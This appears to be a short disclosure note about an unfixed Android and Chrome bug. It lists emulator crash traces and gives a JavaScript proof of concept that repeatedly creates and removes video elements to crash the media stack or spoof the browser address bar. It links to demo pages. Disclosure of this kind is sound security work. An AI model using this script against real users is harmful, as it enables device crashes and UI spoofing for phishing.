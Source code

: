 ```yaml
---
title: Android Crash and UI spoof (Not fixed)
---
```


Android 12 (x86_64): Internal Emulator crash EXCEPTION_ACCESS_VIOLATION_WRITE  
Android 11 (x86): Emulator closes  
Android 9 (x86): Launcher crash frameworks/av/media/libstagefright/omx/SimpleSoftOMXComponent.cpp:476 CHECK(state == OMX_StateLoaded || state == OMX_StateExecuting) failed  

I have also had issues where the address bar or a different website in the case of a webview get shown instead of the video element.
```js
<script> onload = () => { createVideo();createVideo();createVideo();createVideo();createVideo(); } function createVideo() { let v = null; setInterval(() => { if (v) document.body.removeChild(v); v = document.createElement('video'); v.width="1000"; v.src = 'https://bugs.chromium.org/p/chromium/issues/attachment?aid=509705&signed_aid=QB-NucJqv2HA_Noz5yih-w==&inline=1'; document.body.appendChild(v); }, 2000); } </script>
```
Demos: [Doge PoC](https://ndev.tk/doge/) and [Unreliable Chrome UI spoof](https://ndev.tk/video.html)
